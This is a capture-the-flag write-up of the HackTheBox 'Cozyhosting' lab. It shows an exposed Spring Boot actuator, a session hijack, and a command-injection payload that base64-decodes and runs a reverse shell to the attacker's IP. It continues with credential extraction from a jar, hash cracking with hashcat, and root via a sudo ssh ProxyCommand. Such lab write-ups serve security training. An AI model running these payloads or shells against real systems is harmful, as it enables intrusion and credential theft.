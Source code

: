 ```yaml
---
author: Nithissh S
pubDatetime: 2023-09-26T15:22:00Z
modDatetime: 2023-09-26T09:12:47.400Z
title: Cozyhosting - HTB
slug: cozyhosting-htb
featured: false
draft: false
tags:
  - CTF
  - HTB
description:
  An Easy level HackTheBox platform lab machine running Linux containing an open actuator on Spring Boot, Command Injection, application reversal and simple privilege escalation.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.230, let's scan the ports with Nmap:

```sh
$ nmap -sV -sS -Pn -p1-65535 -oN 10.10.11.230 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 01:46 EDT
Nmap scan report for 10.10.11.230
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After going to http://10.10.11.230 we get the address cozyhosting.htb, which we will write in /etc/hosts.

```sh
$ echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

## Web Service

Let's use dirsearch to find interesting files.

```sh
$ python3 dirsearch.py -u http://cozyhosting.htb
Sessions found the user kanderson: <http://cozyhosting.htb/actuator/sessions>.

36FC9F46B782A399A71908E661CF5481	"kanderson"
078E0AFFF6038D86B0E4B9503735EE36	"kanderson"

	
EEB6EBC6B06219C8009764BB6ACCF8DD	"UNAUTHORIZED"
6155F2929B8D4814171410BE580B8215	"kanderson"
```

In web-browser click: Inspect -> Storage -> Cookies - Replace to:

```sh
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg=="|base64${IFS}-d|bash;
```

## Reverse shell:

```sh
$ echo "sh -i >& /dev/tcp/10.10.16.18/4444 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==
```

Let's start nc and send the request:

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.230] 36184
sh: 0: can't access tty; job control turned off
$ ls /home
$ josh
$ ls
$ cloudhosting-0.0.1.jar
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
$ python3 -m http.server 8083
10.10.16.18 - - [08/Sep/2023 10:29:06] "GET / HTTP/1.1" 200 -
10.10.16.18 - - [08/Sep/2023 10:29:07] code 404, message File not found
10.10.16.18 - - [08/Sep/2023 10:29:07] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.18 - - [08/Sep/2023 10:29:51] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

## Exploring the application

Let's download the application cloudhosting-0.0.1.jar and open it in jd.

```sh
$ wget http://cozyhosting.htb:8083/cloudhosting-0.0.1.jar
```
In application.properties find the password for postgres, and in scheduled/FakeUser.class find the creds for user kanderson:

```sh
$ jar xf cloudhosting-0.0.1.jar
$ cd BOOT-INF/classes
$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's look at the database:

```sh
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
psql -U postgres -W -h localhost -d cozyhosting
psql "postgresql://postgres:nvzAQ7XxR@localhost:5432/cozyhosting"
psql -U postgres -W -h localhost -d cozyhosting
Password: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

\c cozyhosting
Password: Vg&nvzAQ7XxR

You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

#### Hash Identification (bcrypt):

```sh
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix)      
```

Let's put the hash in the hash.txt file and run hashcat:

```sh
$ hashcat -m 3200 -a 0 hash.txt rockyou.txt
hashcat (v6.1.1) starting...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Let's see what user is still on the system:

```sh
$ ls -la /home
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-08-08 06:19:05 -0400  josh
Let's try to connect to ssh using:

ssh josh@10.10.11.230
manchesterunited

josh@cozyhosting:~$ cat user.txt
ab5232bdddfdec1731346c7bd7e4e8cc
```

## Privilege escalation

Let's see what the josh user can execute from under sudo: Let's use the gtfobins method.

```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# cd /root
# ls
root.txt
# cat root.txt
f9b3da1faf12ea84a31efc7297b25fc6
```